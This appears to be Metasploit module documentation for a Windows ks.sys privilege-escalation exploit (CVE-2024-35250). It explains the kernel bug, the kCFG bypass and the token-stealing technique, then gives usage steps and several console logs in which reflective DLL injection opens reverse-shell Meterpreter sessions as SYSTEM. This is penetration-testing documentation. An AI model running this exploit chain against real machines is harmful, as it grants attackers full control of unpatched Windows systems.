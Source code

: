 ## Vulnerable Application
The ks.sys driver on Windows is one of the core components of Kernel Streaming and is installed by default. There exists
an Access Mode Mismatch LPE in this driver which can be exploited on some of the latest versions of Windows including:
- Windows 11 22H2,
- Windows 10 22H2
- Windows 10 1607
- Windows Server 2022
- Windows Server 2016

### About the Bug Class
Access Mode Mismatch bugs in the Windows kernel center around the PreviousMode member of the `KTHREAD` structure. Every
thread has a previous access mode associated with it. The PreviousMode is set to UserMode(1) if a user operates on a
device or file through Nt* System Service Call, indicating that the System Service call is from the user. The PreviousMode
is set to KernelMode(2) if for example a device driver invoking the Zw* System Service Call.

RequestorMode is a similar field in the I/O Request Packet (IRP) which indicates if the original request came from
KernelMode or UserMode. This commonly used field is typically derived from PreviousMode.

### About the Vulnerability
An application can use `IOCTL_KS_PROPERTY` to get or set properties, or to determine the properties supported by a KS
object. An application passes `IOCTL_KS_PROPERTY` to the `ks!KsSynchronousIoControlDevice` with a few parameters:
Major Code, Input Buffer, Input Buffer Length, Output Buffer, Output Buffer Length and Status Code. To improve
efficiency in `IOCTL_KS_PROPERTY` of Kernel Streaming, the requests `KSPROPERTY_TYPE_SERIALIZESET` and
`KSPROPERTY_TYPE_UNSERIALIZESET` are provided to allow users to operate on multiple properties in a single call.

The vulnerability stems from the driver's use of the function `ks!KsSynchronousIoControlDevice`. There are multiple calls
to this function throughout the driver which incorrectly hard code the RequestorMode parameter value KernelMode. The
vulnerable function `ks!KsSynchronousIoControlDevice` can be invoked by issuing a `KSPROPERTY_TYPE_UNSERIALIZESET` request
in which user controlled parameters are handled with KernelMode privileges specifically when the property is set to
`KSPROPSETID_DrmAudioStream`. This provides a primitive that allows users to perform arbitrary `IOCTL_KS_PROPERTY`
operations.

To achieve EoP with this primitive first kCFG must be bypassed. By using the legitimate function `RtlSetAllBits` from
ntoskrnl.exe, the arbitrary `IOCTL_KS_PROPERTY` operation can be turned into a arbitrary write primitive which can be used
to achieve EoP by whatever typical method the user prefers. This module uses the write primitive to replace the
current process token with a system token. Abusing token privileges is also an option.

### Setup

Install Windows 10 22H2 (before 10.0.19045.4529) on any HyperVisor other than Hyper-V. Hyper-V does not have an audio
device by default, causing the exploit to fail.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_35250_ks_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 10 22H2 (10.0 Build 19045)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 19045
[*] Launching notepad to   host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 1012
[*] Reflectively injecting the DLL into 1012...
[*] Sending stage (201798 bytes) to 192.168.123.236
[*] Meterpreter session 3 opened (192.168.123.1:5555 -> 192.168.123.236:49676) at 2024-11-04 09:47:50 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-0OPTL76
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

### Windows 10 1607 (10.0 Build 14393)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 4272
[*] Reflectively injecting the DLL into 4272...
[*] Sending stage (201798 bytes) to 192.168.123.240
[*] Meterpreter session 5 opened (192.168.123.1:5555 -> 192.168.123.240:49675) at 2024-11-05 10:19:30 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-4A5TFR5
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 22H2 (10.0 Build 22621)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 22621
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 6948
[*] Reflectively injecting the DLL into 6948...
[*] Sending stage (201798 bytes) to 192.168.123.1
[*] Meterpreter session 7 opened (192.168.123.1:5555 -> 192.168.123.1:52543) at 2024-11-04 11:22:59 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 11 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2022 (10.0 Build 20348)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016+ Build 20348
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 7336
[*] Reflectively injecting the DLL into 7336...
[*] Sending stage (201798 bytes) to 172.16.199.132
[*] Meterpreter session 3 opened (172.16.199.1:5555 -> 172.16.199.132:49977) at 2024-11-05 10:03:36 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-LBHI5KSJDU4
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2016 (10.0 Build 14393)
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 316
[*] Reflectively injecting the DLL into 316...
[*] Sending stage (201798 bytes) to 172.16.199.135
[*] Meterpreter session 7 opened (172.16.199.1:5555 -> 172.16.199.135:49691) at 2024-11-05 13:48:17 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-4DS9S9C0JSC
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

